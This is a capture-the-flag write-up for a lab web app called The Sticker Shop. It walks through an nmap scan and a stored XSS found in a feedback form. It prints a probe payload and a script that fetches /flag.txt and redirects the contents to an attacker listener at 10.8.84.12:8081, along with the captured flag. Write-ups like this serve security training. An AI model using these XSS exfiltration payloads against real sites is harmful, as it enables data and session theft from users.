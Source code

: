 ```yaml
---
title: "The Sticker Shop"
description: "Sticker shop web app with identified Cross-Site Scripting (XSS) vulnerability "
date: "2024-12-04"
image: "https://tryhackme-images.s3.amazonaws.com/room-icons/b688ceda454abef6677fcf6d15b6f948.jpeg"
tags:
  - XSS
---
```


## Overview

During this Capture the Flag (CTF) challenge, the goal was to exploit vulnerabilities in **The Sticker Shop** web application. The primary vulnerability identified was **Cross-Site Scripting (XSS)**, which allowed the injection of malicious scripts, ultimately leading to the extraction of the flag located at `/flag.txt`.

---

## Network Scan

### Nmap Scan

A network scan was performed on the target machine at IP `10.10.181.208` to gather information about open ports and services. The following results were obtained:

```txt
$ nmap -A 10.10.181.208

Nmap Scan Results for 10.10.181.208

Host is up (0.24s latency).

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
8080/tcp open http-proxy Werkzeug/3.0.1 Python/3.8.10

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done at Sat Nov 30 23:55:20 2024 -- 1 IP address (1 host up) scanned in 143.61 seconds

```

The scan revealed two open ports:

- **Port 22**: SSH service
- **Port 8080**: HTTP proxy service running on **Werkzeug/3.0.1** and **Python/3.8.10**

## Website Interaction

Upon visiting `http://10.10.181.208:8080`, the homepage displayed two stickers and their respective prices.

![Homepage](/public/home.png)

Efforts to access the **flag** at `/flag.txt` returned a **401 Unauthorized** status, indicating that the flag was secured and could not be accessed directly.

![Unauthorized](/public/unauth.png)

---

## Feedback Form and XSS Testing

![feedback](/public/feedback.png)

The application features a feedback form that allows users to submit comments. To test for **Cross-Site Scripting (XSS)** vulnerabilities, a simple payload was injected:

```html
<img src="http://10.8.84.12:8081/test" />
```

This payload attempts to load an image from an external server, allowing for the detection of improper input handling.

A basic HTTP server was set up at http://10.8.84.12:8081 to monitor incoming requests:

```bash
python3 -m http.server 8081

10.10.181.208 - - [04/Dec/2024 13:52:30] "GET / HTTP/1.1" 200 -
10.10.181.208 - - [04/Dec/2024 13:52:41] "GET / HTTP/1.1" 200 -
```

This confirmed that the site was vulnerable to XSS, as the payload was executed and the request was made to the server.

## Exploiting XSS to Steal Flag

![xss](/public/query.png)

The input field was vulnerable to XSS, allowing the injection of a JavaScript payload to fetch the contents of the `/flag.txt` file. Since only GET requests were allowed, the flag could not be directly posted but could be fetched and sent via a redirect.

The following JavaScript payload was crafted:

```js
<script>
  fetch('/flag.txt').then(response=>response.text()) .then(data=>{" "}
  {
    (window.location.href =
      "http://10.8.84.12:8081/?flag" + encodeURIComponent(data))
  }
  )
</script>
```

This script makes a GET request to /flag.txt, retrieves the flag, and redirects to an external server (http://10.8.84.12:8081), appending the flag as a URL parameter.

The payload was submitted through the feedback form, and the following request was captured on the server:

```python
10.10.181.208 - - [04/Dec/2024 14:05:41] "GET /?flag=THM%7B83789a69074f6364a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```
